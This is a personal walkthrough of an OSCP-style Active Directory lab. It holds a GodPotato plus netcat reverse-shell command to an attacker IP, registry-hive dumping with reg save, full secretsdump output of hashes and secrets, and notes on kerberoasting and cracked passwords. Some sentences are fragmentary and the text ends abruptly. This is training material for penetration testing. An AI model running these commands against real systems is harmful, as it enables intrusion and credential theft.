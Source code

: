 # Active Directory

```
MS01 -> 192.168.243.147
MS02 -> 10.10.203.148
DC01 -> 10.10.203.146

credentials: Eric.Wallows / EricLikesRunning800
```

I start by connecting to the session via evil winrm and look at the double NIC:

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

I quickly see me have&#x20;

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

So i upload netcat and godpotato to the machine and launch the command to get a reverse shell:

```
#set up listener
nc -nlvp 1234
#in session:
./GodPotato-NET4.exe -cmd "nc.exe -e cmd.exe 192.168.45.249 1234"
```

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

So we have admin access so i go and look at the command to exfiltrate the hives:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets#exfiltration" %}

```
reg save HKLM\SAM "C:\Users\eric.wallows\Desktop\sam.save"
reg save HKLM\SECURITY "C:\Users\eric.wallows\Desktop\security.save"
reg save HKLM\SYSTEM "C:\Users\eric.wallows\Desktop\system.save"
```

Then i download everything to my attackbox:

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Then i dump everything with this command:

```
impacket-secretsdump -sam 'sam.save' -security 'security.save' -system 'system.save' LOCAL
```

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xa5403534b0978445a2df2d30d19a7980
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3c4495bbd678fac8c9d218be4f2bbc7b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11ba4cb6993d434d8dbba9ba45fd9011:::
Mary.Williams:1002:aad3b435b51404eeaad3b435b51404ee:9a3121977ee93af56ebd0ef4f527a35e:::
support:1003:aad3b435b51404eeaad3b435b51404ee:d9358122015c5b159574a88b3c0d2071:::
[*] Dumping cached domain logon information (domain/username:hash)
OSCP.EXAM/Administrator:$DCC2$10240#Administrator#a3a38f45ff2adaf28e945577e9e2b57a: (2022-11-10 10:06:42)
OSCP.EXAM/web_svc:$DCC2$10240#web_svc#130379745455ae62bbf41faa0572f6d3: (2025-02-25 18:34:19)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:41bbb6f29bca4192a9e81d50ca80d5795b43dc1855d3baa7940c42a26a84905861d257a62d85bc647985485ae08c44d749e7988e842a82c8ba51181adce6c93617d2413ae09d644ba53e83571a3262132fd0060cc9e0630b970c6b564b6f542a0505aa0b5f7c79837fd30cb55d718463a7ec1ce58b212127458214ad5e8b68f9b09698f3eec191ad4f19ad495f038e29244056cc9c43b48e52ccda146edd91a52176cfb06297987e5b9994e139d3f18bd5f5e9662036a23b81e09a5e253cbc727ae73701066c0cd86b3de2a6493cd5e1fcb5d44407b987bb2c68b85a4eb8de3fa08a295367007fa40fbaf4e305055135
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e60532ba861fa96b10dc19c10afbfb84
[*] DefaultPassword 
(Unknown User):7k8XHk3dMtmpnC7
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x14cc9accbb06d4af8f07295749933b06cf0d6dfd
dpapi_userkey:0x4c31eb802e3529d34f198a0473a6745cf5948527
[*] NL$KM 
 0000   F1 9F 8D 0A 3D 6B 2D 13  69 96 2E 4C 32 4D C3 66   ....=k-.i..L2M.f
 0010   D5 36 97 AB 1F 0B F2 38  11 3E DF 05 AE DF 31 70   .6.....8.>....1p
 0020   C0 E3 97 A0 08 31 A9 2A  E3 88 48 DD 2C 88 86 56   .....1.*..H.,..V
 0030   83 C9 79 90 03 D5 9D 28  C1 BE 33 D6 0E 7B B7 9B   ..y....(..3..{..
NL$KM:f19f8d0a3d6b2d1369962e4c324dc366d53697ab1f0bf238113edf05aedf3170c0e397a00831a92ae38848dd2c88865683c9799003d59d28c1be33d60e7bb79b
[*] Cleaning up...
```

Then i kerberoasted the DC with the creds of eric and had 2 hashes:

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

O was able to crack the 2 hashes and got password&#x20;

```
Diamond1
Dolphin1
```

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

With xp cmdshell:

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>
